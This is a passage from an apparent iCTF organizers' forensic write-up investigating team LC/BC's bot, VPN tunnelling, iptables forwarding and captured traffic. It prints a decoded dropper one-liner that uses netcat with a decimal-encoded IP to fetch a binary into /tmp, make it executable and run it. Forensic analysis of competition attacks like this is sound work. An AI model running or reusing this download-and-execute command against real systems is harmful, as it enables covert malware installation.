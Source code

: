 The large numerical value (729721240....8984862257) decodes as follows:

    :::text linenos=no
    nc 2887746068 8080 >/tmp/.1;chmod +x /tmp/.1;/tmp/.1

The 2887746068 converts to 172.31.130.20, which is LC/BC's IP address.


## LC/BC's VM

A bot like the one installed by the command above is perfectly fine, but we felt that it was worth
checking out. We grabbed an image of LC/BC's end-game VM to investigate, but found that they had
completely overwritten the whole VM disk with /dev/zero. They were the only team to have done
this. Our interest was really piqued now.

Interestingly, they hadn't cleared their disk from the first half of the competition (before all
teams were moved to a new game network). On that machine, we found a proxy on port 8080 that
proxied all traffic to 7.7.7.234, which is owned by the United States Department of Defense. The
current political situation aside, we assumed that the US DOD was not collaborating with LC/BC,
and that something else must have been happening. After some digging, a VPN configuration file was
discovered that connected their instance back to 109.233.56.76 on ports 53 and 443 (creating a
172.31.0.0/16 network). In addition, a few iptables rules were found that forwarded incoming
requests to 7.7.7.0/24.

    :::text linenos=no
    iptables -A FORWARD -s 7.7.7.0/24 -d 172.31.0.0/16 -j ACCEPT
    iptables -A FORWARD -s 172.31.0.0/16 -d 7.7.7.0/24 -j ACCEPT
    iptables -t nat -A POSTROUTING -s 7.7.7.0/24 -d 172.31.0.0/16 -j MASQUERADE

For the record, 109.233.56.76 is currently the server hosting ctf.su
(<http://www.w3ju.com/w/ctf.su>), which is the site of MSLC, the "LC" in LC/BC. This is still ok —
if they want to pretend to be the DOD, more power to them. But things were looking rather juicy
now.


## PCAPs

At this point, the investigation would have really benefitted from a tcpdump that
included port 8080. However, due to a configuration error, the iCTF router only captured traffic
for the service ports (namely, 20001-20012).

Hoping that some teams did not make the same mistake, we scraped all team VMs for all PCAPs and,
as expected, found several teams that had recorded all traffic. We'll call them team "Packrat,"
because the name fits their PCAP-saving behavior.

Packrat's PCAP contained all traffic, not just service traffic. However since the pcap files were
collected on their machine, they contained just the traffic from and to team Packrat. Packrat's
capture started at 11:05pm and stopped at 11:00am, which included the time period in question. Out
of the entire pcap collection, the only non-service port traffic found was between Packrat and
LC/BC. The ports being used were 3123, 8080, 37421, and 54981 with a total of 420,422 packets
captured.

Port 3123 contained another netcat-something-into-tmp transaction. Port 8080 contained the
netcatted binary. Port 37421 contained a bunch of obfuscated data, which we assumed was either
exfiltrated flags or some other payload for the dropped bot (stay tuned!). There were 8,865
connections on this port alone, sent repeatedly and changing every once in a while. Port 54981
just contained RST packets.
